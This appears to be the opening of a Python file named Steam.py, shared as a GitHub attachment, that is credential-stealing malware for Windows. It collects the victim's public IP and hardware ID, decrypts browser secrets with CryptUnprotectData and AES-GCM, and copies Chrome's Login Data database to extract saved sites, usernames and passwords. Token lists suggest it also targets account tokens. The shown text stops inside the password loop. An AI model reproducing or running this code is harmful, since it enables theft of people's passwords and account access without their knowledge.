 [Steam.py](https://github.com/user-attachments/files/21936218/Steam.py)
from base64 import b64decode
from Crypto.Cipher import AES
from win32crypt import CryptUnprotectData
from os import getlogin, listdir
from json import loads
from re import findall
from urllib.request import Request, urlopen
from subprocess import Popen, PIPE
import requests, json, os
from datetime import datetime
import sqlite3
import shutil
import tempfile
from os.path import isfile, join
import zipfile

tokens = []
cleaned = []
checker = []

def decrypt(buff, master_key):
    try:
        return AES.new(CryptUnprotectData(master_key, None, None, None, 0)[1], AES.MODE_GCM, buff[3:15]).decrypt(buff[15:])[:-16].decode()
    except:
        return "Error"

def getip():
    ip = "None"
    try:
        ip = urlopen(Request("https://api.ipify.org")).read().decode().strip()
    except: pass
    return ip

def gethwid():
    p = Popen("wmic csproduct get uuid", shell=True, stdin=PIPE, stdout=PIPE, stderr=PIPE)
    return (p.stdout.read() + p.stderr.read()).decode().split("\n")[1]

def get_passwords(path, master_key):
    passwords = []
    try:
        login_db = os.path.join(path, 'Login Data')
        if not isfile(login_db): 
            return passwords
            
        temp_file = os.path.join(tempfile.gettempdir(), "login_db")
        shutil.copy2(login_db, temp_file)
        
        conn = sqlite3.connect(temp_file)
        cursor = conn.cursor()
        cursor.execute("SELECT origin_url, username_value, password_value FROM logins")
        
        for row in cursor.fetchall():
            url = row[0]
            username = row[1]
            encrypted_password = row[2]
            